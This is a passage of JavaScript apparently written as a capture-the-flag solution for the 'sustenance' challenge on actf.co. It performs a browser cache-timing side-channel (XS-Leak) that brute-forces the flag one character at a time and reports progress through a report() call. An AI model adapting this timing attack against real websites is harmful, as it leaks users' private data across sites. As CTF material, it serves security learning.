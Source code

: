 ``` js
    }
  }

  // NOTE: server is quite fast so no need to set timeout
  async function getLoadTime(url) {
    const start = performance.now()
    await fetch(url, { cache: 'force-cache', mode: 'no-cors' })
    return performance.now() - start
  }

  function genSucceedUrl(t) {
    let ft = t + ''
    while(ft.length < 13) {
      ft += '0'
    }
    const status = "succeeded, but please give me sustenance if you want to be able to see your search results because I desperately require sustenance";
    return 'https://sustenance.web.actf.co/?m=' + encodeURIComponent(`your search that took place at ${ft} has ${status}`);
  }

  async function isCached(str) {
    let start = +new Date()
    let win = window.open(`https://sustenance.web.actf.co/q?q=` + encodeURIComponent(str))
    await sleep(500)
    win.close()
    
    // NOTE: base on the data collected, i should be 1~20, pretty small number
    for(let i=1; i<=30; i++) {
      const url = genSucceedUrl(start + i)
      let loadTime = await getLoadTime(url)
      if (loadTime <= baseLine) {
        
        // NOTE: check again to see if it really meets the condition
        let total = 0
        for(let j=1; j<=3; j++) {
          total += await getLoadTime(url)
        }
        total/=3
        if (total <= baseLine) {
          report(`isCached success, str=${str}, i=${i}, start=${start}, total=${total}`)
          return true
        }
      }
    }
    return false
  }

  async function main() {
    let flag = 'actf{yummy_'
    
    // NOTE: we can leak the charset first to speed up the process
    let chars = 'acefsmntuy_}'.split('')
    while(flag[flag.length - 1] !== '}') {
      for(let char of chars) {
        report('trying:'  + flag + char)
        if (await isCached(flag + char)) {
          flag += char
          report('flag:' + flag)
          break
        }
      }
    }
```